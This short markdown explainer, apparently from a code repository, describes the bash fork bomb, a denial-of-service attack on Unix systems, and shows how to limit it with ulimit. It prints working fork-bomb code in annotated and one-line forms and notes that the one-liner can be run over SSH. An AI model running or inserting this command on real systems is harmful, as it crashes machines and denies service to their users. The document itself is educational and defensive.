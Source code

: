 # Fork Bomb

This .md is meant to explain what a fork bomb is and how to prevent it.

A fork bomb is a form of denial of service (DoS) for unix based system. It consist in a bash function which iterate 
itself again and again, multiplying each time the number of iterations.

The code works as following
```
bomb() {        # Initialize the function
bomb | bomb &   # Create new iteration of the function in background
}; bomb         #End the function an iter again
```
Or in just one line so it can be executed easely as a shell comand while in SSH connection.
```
bomb () { bomb | bomb & }; bomb
```
> [!CAUTION]
> This script will crash the hosting machine so use it with caution

The bomb can be mitigated limiting the number of process a user can start with something like `ulimit` command.
```
ulimit -u [number_of_process]
```
This will limit the number the number of process so that the script will not cause the machine to crash.

